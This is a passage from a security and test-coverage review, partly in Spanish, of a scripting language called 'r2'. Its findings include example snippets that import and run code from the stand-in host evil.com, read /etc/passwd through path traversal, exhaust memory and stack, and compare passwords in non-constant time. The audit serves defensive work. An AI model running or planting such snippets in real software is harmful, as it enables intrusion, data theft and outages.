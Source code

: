 #### Phase 2: Coverage (80 horas)
```go
// Comprehensive test suite
TestSuite_Lexer: 90% coverage target
TestSuite_Parser: 85% coverage target  
TestSuite_Evaluator: 80% coverage target
TestSuite_Environment: 95% coverage target
```

## Security Assessment

### Vulnerabilities Identificadas

#### 🔴 CRÍTICAS

**1. Arbitrary Code Execution via Import**
```r2
import "http://evil.com/malware.r2" as mal
mal.backdoor()  // Ejecuta código remoto sin validación
```
**CVSS Score**: 9.3 (Critical)
**Mitigation**: URL whitelist, sandbox execution

**2. Path Traversal**
```r2  
io.readFile("../../../../etc/passwd")
// Sin validación de paths
```
**CVSS Score**: 7.5 (High)

**3. Denial of Service - Resource Exhaustion**
```r2
// Memory bomb
let arr = []
while (true) { arr.push(new Array(1000000)) }

// Stack overflow  
func infinite() { return infinite() }
```
**CVSS Score**: 6.2 (Medium)

#### 🟡 MEDIAS

**4. Information Disclosure**
```go
panic("Undeclared variable: " + secretVarName)
// Expone nombres de variables internas
```

**5. Timing Attacks**
```go
// Comparaciones string sin constant time
if password == inputPassword { ... }
```
